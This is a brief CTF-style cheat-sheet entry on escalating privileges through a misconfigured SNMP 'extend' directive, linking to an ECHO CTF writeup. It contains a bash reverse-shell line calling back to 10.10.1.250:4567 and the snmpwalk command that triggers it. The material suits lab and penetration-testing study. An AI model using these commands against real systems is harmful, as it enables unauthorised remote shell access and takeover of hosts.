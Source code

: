 #### SNMP Priv Escalation

If port 161 is open internally you can search for the /etc/snmp/snmpd.conf file and review its content, notice that private community is read and writable:

```text
rocommunity public default
rwcommunity private default
extend etsctf /tmp/snmpd-tests.sh
```

If the extend permissions is configured then you can execute commands from within the folder by creating/modifying the file with following content:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.1.250/4567 0>&1'
```

Don't forget to set the permissions of the script (chmod +x).
Then by executing the snmpwalk to retrieve the files, the reverse shell will be created:
```bash
snmpwalk localhost -c private -v1 . -On 
```

Examples:
[ECHO CTF Nopal](https://echoctf.red/target/38/writeup/read/37)